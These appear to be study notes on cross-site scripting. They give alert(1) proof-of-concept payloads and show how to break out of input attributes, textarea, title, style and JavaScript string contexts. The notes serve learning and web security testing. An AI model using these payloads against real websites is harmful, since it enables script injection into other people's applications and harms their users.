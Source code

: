 ____

# Basic XSS

```html
<script>alert("1")</script>
```

![[Pasted image 20241120124025.png]]

# Escaping Context

## Input

```html
<input value="test">
```

```html
"><script>alert(1)</script>
```

![[Pasted image 20241120125055.png]]

```html
" onmouseover=alert(1);//
```

![[Pasted image 20241120125551.png]]

## Textarea

```html
<textarea>test</textarea>
```

```html
</textarea><script>alert(1)</script>
```

![[Pasted image 20241120131231.png]]

## Title

```html
<title>Welcome, test</title>
```

```html
</title><script>alert(1)</script>
```

## Style

```html
<style>
        body {
            background-color: test;
        }
    </style>
```

```html
</style><script>alert(1)</script>
```

## Javascript variables

```html
<script>
var name = 'test'; $('span#name').html( name );
</script>
```

```html
test';alert(1)//
```

![[Pasted image 20241120133508.png]]